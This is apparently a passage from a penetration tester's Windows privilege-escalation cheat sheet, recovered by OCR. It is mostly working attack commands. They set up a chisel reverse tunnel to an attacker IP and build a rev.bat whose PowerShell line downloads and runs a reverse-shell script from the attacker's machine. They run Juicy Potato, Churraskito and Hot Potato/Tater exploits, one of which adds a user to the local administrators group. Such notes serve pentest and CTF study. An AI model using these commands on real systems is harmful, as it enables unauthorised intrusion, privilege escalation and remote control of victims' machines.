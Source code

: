 $ ./chisel_1.7.6_linux_amd64 server -p 8888 --reverse
C:\Windows\Temp> start /b chisel.exe client $ATTACKING_IP:9999 R:135:localhost:9999

# - SERVER 2008, 2012 R2 1 Processor --> JUICY POTATO (SeImpersonate)
# It may not work for 2008 SP1
https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms16-075.md
1) Create rev.bat with this content:
powershell.exe -c iex(new-object net.webclient).downloadstring('&#x3C;Your-Machine-IP>:8000/Invoke-PowerShellTcp.ps1')
2) Download Juicy Potato
3) Upload both to the target machine
4) Serve Invoke-PowershellTCP.ps1 and modify last line to add this:
Invoke-PowerShellTcp -Reverse -IPAddress $IP -Port $PORT
5) Set up the listener and execute:
JuicyPotato.exe -t t -l $PORT -p $REV_SHELL_PATH
JuicyPotato64.exe -t * -l 1337 -p C:\Users\Public\Documents\rev.bat 

# - SERVER 2012 R2 x64 2 PROCESSORS --> bfill.exe (MS16-098)
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

# - SERVER 2003, 2008 SP1 x86 / 2008 R2 --> Churraskito/Chimichurri (MS10-059) (SeImpersonate)
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
FOR REVERSE SHELL
churraskito.exe $IP $PORT

# - HOT POTATO
# Potato Privilege Escalation on Windows 7,8,10, Server 2008, Server 2012
# Exploitation (Windows VM)
1. In command prompt type: powershell.exe -nop -ep bypass
2. In Power Shell prompt type: Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
3. In Power Shell prompt type: Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
4. To confirm that the attack was successful, in Power Shell prompt type: net localgroup administrators
</code></pre>
